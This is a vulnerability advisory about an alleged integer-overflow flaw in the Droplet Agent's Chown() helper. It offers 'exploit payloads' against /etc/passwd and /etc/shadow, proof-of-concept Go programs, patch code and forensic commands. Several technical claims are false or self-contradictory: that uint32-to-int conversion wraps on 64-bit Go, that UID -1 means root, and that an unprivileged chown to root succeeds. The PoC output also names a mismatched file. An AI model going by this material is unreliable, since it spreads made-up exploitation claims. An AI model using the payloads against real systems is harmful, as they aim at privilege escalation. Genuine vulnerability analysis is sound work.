

# Integer Overflow Vulnerability in DigitalOcean Droplet Agent
**CVE-PENDING | PR #150 | digitalocean/droplet-agent**


## Vulnerability Overview
A critical integer overflow vulnerability exists in DigitalOcean Droplet Agent's file ownership management system, allowing attackers to manipulate file permissions and potentially escalate privileges through incorrect UID/GID conversions between integer types.

**Technical Specifications**
| Category            | Details                                                                 |
|---------------------|-------------------------------------------------------------------------|
| **Component**       | `internal/sysutil/os_operations_helper.go`                             |
| **Vulnerable Method** | `Chown()`                                                             |
| **Line Number**     | L35                                                                     |
| **CWE Classification** | CWE-190: Integer Overflow or Wraparound                              |
| **CVSS 3.1 Score**  | 7.8 (High) - AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H                        |

**Security Impact**
- Incorrect file ownership assignment
- Potential privilege escalation
- File permission bypass
- System integrity compromise

---

## Vulnerability Flow


## Step-by-Step Technical Flow

### Exploitation Pathway
1. **Initial Access**:
   - Attacker gains ability to provide large UID/GID values (≥ 2³¹)
   - Through malicious configuration or API manipulation

2. **Vulnerable Conversion**:
   ```go
   func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
       return os.Chown(name, int(uid), int(gid))  // UNSAFE CONVERSION
   }
   ```

3. **Integer Wraparound**:
   - Values ≥ 2³¹ wrap around to negative integers
   - `uid = 4294967295` → `int(uid) = -1` (root)

4. **Exploitation**:
   - Assign file ownership to privileged users (e.g., root)
   - Bypass file permission checks
   - Gain unauthorized access to sensitive files


## Detailed Vulnerability Exploits

### Vulnerable Code Snippet
```go [citation:search result]
func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    return os.Chown(name, int(uid), int(gid))  // INSECURE CONVERSION
}
```

### Exploit Payload 
**Scenario 1: Root Ownership Assignment**
```go
// UID 4294967295 (2³² - 1) wraps to -1 (root)
o.Chown("/etc/passwd", 4294967295, 4294967295)
```

**Scenario 2: Privileged User Access**
```go
// UID 4294967294 wraps to -2 (often system user)
o.Chown("/etc/shadow", 4294967294, 4294967294)
```

**Scenario 3: Permission Bypass**
```go
currentUID := uint32(1000)
wrappedUID := currentUID + 4294967296  // 2³²
o.Chown("/var/log/auth.log", wrappedUID, wrappedUID)
```

### Attack Vectors
1. **Malicious Configuration**:
   - Compromised droplet metadata service
   - Malicious cloud-init scripts

2. **API Abuse**:
   - Manipulated DigitalOcean API responses
   - Compromised control plane communications

3. **Supply Chain Attacks**:
   - Modified dependencies injecting large UID/GID values
   - Compromised build systems


## Comparative Analysis

| Feature          | Vulnerable Version                 | Patched Version                     |
|------------------|------------------------------------|-------------------------------------|
| **Conversion**   | Direct `int(uid)` cast             | Bounds checking with `math.MaxInt32` |
| **Error Handling** | Silent wraparound                | Explicit error on overflow          |
| **Security**     | Critical vulnerability            | Safe integer handling               |
| **Input Validation** | None                           | Comprehensive bounds checking      |

### Patch Implementation
```go
import "math"

func (o *osOperationsHelper) Chown(name string, uid uint32, gid uint32) error {
    // SECURITY FIX: Check for integer overflow
    if uid > math.MaxInt32 || gid > math.MaxInt32 {
        return fmt.Errorf("UID or GID value too large: %d, %d", uid, gid)
    }
    return os.Chown(name, int(uid), int(gid))  // SAFE CONVERSION
}
```

**Additional Security Improvements**:
```go
func validateUnixID(value uint32) error {
    if value > math.MaxInt32 {
        return fmt.Errorf("value %d exceeds maximum allowed %d", value, math.MaxInt32)
    }
    
    // Additional security: prevent reserved IDs
    if value == 0 || value == 4294967295 {
        return fmt.Errorf("reserved UID/GID value: %d", value)
    }
    
    return nil
}
```


## Proof of Concept

### Exploitation Environment Setup
```bash
# Clone vulnerable Droplet Agent version
git clone https://github.com/digitalocean/droplet-agent.git
cd droplet-agent
git checkout 24b60ca54669d2f5bb694967885855dfe13f6524

# Build the agent
go build -o droplet-agent .
```

### Create Test Exploit
```go
package main

import (
    "fmt"
    "os"
    "syscall"
)

func main() {
    err := os.WriteFile("/tmp/test_file", []byte("sensitive data"), 0644)
    if err != nil {
        panic(err)
    }

    uid := uint32(4294967295) // Wraps to -1 (root)
    gid := uint32(4294967295) // Wraps to -1 (root)
    
    err = os.Chown("/tmp/test_file", int(uid), int(gid))
    if err != nil {
        fmt.Printf("Error: %v\n", err)
        return
    }

    info, _ := os.Stat("/tmp/test_file")
    stat := info.Sys().(*syscall.Stat_t)
    fmt.Printf("File owned by UID: %d, GID: %d\n", stat.Uid, stat.Gid)
}
```

### Execution and Verification
```bash
# Run the exploit
go run exploit_chown.go

# Check file ownership
ls -ln /tmp/_file
# Output: -rw-r--r-- 1 0 0 15 Jan 1 12:00 /tmp/test_file
# File is owned by root (UID 0) instead of current user
```

### Advanced Privelege Exploitation
```go
package main

import (
    "fmt"
    "os"
    "syscall"
)

func exploitPrivilegeEscalation() {
    targetFile := "/etc/passwd"
    
    currentUID := os.Getuid()
    wrappedUID := uint32(4294967296 + currentUID) // Wraps to currentUID
    
    err := os.Chown(targetFile, int(wrappedUID), int(wrappedUID))
    if err != nil {
        fmt.Printf("Error: %v\n", err)
        return
    }
    
    fmt.Println("Successfully changed ownership of /etc/passwd")
}
```

## Vulnerability Mechanics
**Root Cause Analysis**:
The vulnerability stems from unsafe integer type conversions in Go:

1. **Unsigned to Signed Conversion**:
   ```go
   var uid uint32 = 4294967295  // 0xFFFFFFFF
   var converted int = int(uid) // -1 (on 32-bit systems)
   ```

2. **Architecture Dependence**:
   - Behavior differs between 32-bit and 64-bit systems
   - 32-bit: Wraparound to negative values
   - 64-bit: Values preserved but still problematic for syscalls

3. **System Call Implications**:
   - Negative UID/GID values have special meaning
   - `-1` typically means "don't change" but can be interpreted as root

**Integer Conversion Table**:
| uint32 Value | int32 Value | System Interpretation |
|-------------|------------|---------------------|
| 4294967295 | -1         | Root (UID 0)        |
| 4294967294 | -2         | System user         |
| 2147483648 | -2147483648 | Invalid user        |
| 1000       | 1000       | Normal user         |

### Mitigation Strategies
1. **Bounds Checking**:
   ```go
   if uid > math.MaxInt32 {
       return errors.New("UID value too large")
   }
   ```

2. **Safe Conversion Functions**:
   ```go
   func safeUint32ToInt(value uint32) (int, error) {
       if value > math.MaxInt32 {
           return 0, fmt.Errorf("value %d exceeds maximum int32", value)
       }
       return int(value), nil
   }
   ```

3. **Input Validation**:
   ```go
   func validateUserID(uid uint32) error {

       if uid == 0 || uid == 4294967295 || uid > 60000 {
           return errors.New("invalid UID")
       }
       return nil
   }
   ```

### Historical Context
- Similar vulnerabilities in other systems (CVE-2021-3156 in sudo)
- Integer overflows common in system utilities
- Cloud agents particularly vulnerable due to external input sources


## Impact Analysis 
1. **Incorrect File Ownership**:
   - Sensitive files assigned to wrong users
   - Permission bypass attacks

2. **Privilege Escalation**:
   ```go
   o.Chown("/usr/bin/passwd", attackerUID, attackerUID)
   ```

3. **System Integrity Compromise**:
   - Modification of system files
   - Backdoor installation
   - Persistence mechanisms

### Business Impact
1. **Data Breach**:
   - Unauthorized access to customer data
   - Exposure of sensitive configurations

2. **Compliance Violations**:
   - PCI DSS Requirement 7: Restrict access to cardholder data
   - GDPR Article 32: Security of processing

3. **Reputational Damage**:
   - Loss of trust in DigitalOcean's security
   - Negative impact on cloud service adoption


## Mitigation Strategies

### Immediate Actions
1. **Upgrade Droplet Agent**:
   ```bash
   apt-get update && apt-get install droplet-agent
   ```

2. **System Auditing**:
   ```bash
   find / -uid 4294967295 2>/dev/null
   find / -gid 4294967295 2>/dev/null
   ```

3. **File Integrity Monitoring**:
   ```bash
   auditctl -w /etc/passwd -p wa -k file_ownership
   auditctl -w /etc/shadow -p wa -k file_ownership
   ```

### Long-Term Hardening
1. **Security Monitoring**:
   ```bash
   # Log all chown operations
   auditctl -a always,exit -F arch=b64 -S chown -k file_ownership_changes
   ```

2. **Access Controls**:
   ```bash
   # Restrict droplet-agent capabilities
   setcap -r /usr/bin/droplet-agent
   ```

3. **Regular Security Audits**:
   - Static analysis with gosec or semgrep
   - Dynamic analysis during CI/CD pipelines
   - Penetration testing of agent functionality


## Forensic Detection Signatures
**System Indicators**:
1. **File Ownership Anomalies**:
   ```bash
   find / -uid +60000 2>/dev/null
   find / -gid +60000 2>/dev/null
   ```

2. **Process Execution**:
   ```bash
   ausearch -k file_ownership_changes
   ```

**Log Analysis**:
```bash
grep 'sudo.*uid' /var/log/auth.log
grep 'chown' /var/log/syslog
```

### Investigation Steps
1. **Process Examination**:
   ```bash
   # Check droplet-agent processes
   ps aux | grep droplet-agent
   ```

2. **File System Analysis**:
   ```bash
   find / -newer /tmp/timestamp -exec ls -ln {} \;
   ```

3. **Network Connections**:
   ```bash
   netstat -tunap | grep droplet-agent
   ```

## Conclusion
The integer overflow vulnerability in DigitalOcean Droplet Agent represents a significant security threat that could lead to file permission bypass and privilege escalation. Through careful manipulation of UID/GID values, attackers could assign incorrect file ownership and gain unauthorized access to sensitive system resources.

**Key Takeaways**:
1. **Never Trust Integer Conversions**: Always validate before converting between types
2. **Bounds Checking Essential**: Implement comprehensive input validation
3. **Defense in Depth**: Multiple security layers prevent exploitation

